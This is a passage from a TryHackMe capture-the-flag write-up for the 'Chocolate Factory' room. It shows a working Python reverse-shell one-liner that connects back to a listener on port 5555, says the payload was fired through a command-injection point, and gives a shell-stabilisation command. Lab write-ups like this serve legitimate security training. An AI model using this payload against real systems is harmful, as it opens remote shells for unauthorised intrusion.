 ![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Chocolate-Factory/Images/Screenshot%208.png)

To escalate this into a shell, I prepared a reverse shell payload and set up a Netcat listener on port 5555. The payload used was:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.201.99.122",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'
```
After executing the payload from the command injection point, I caught the reverse shell and then stabilized it with:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

I also located the `key_rev_key` file mentioned earlier.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Chocolate-Factory/Images/Screenshot%209.png)

With local access established, I was able to read the contents of the `key_rev_key` file, which revealed a key.
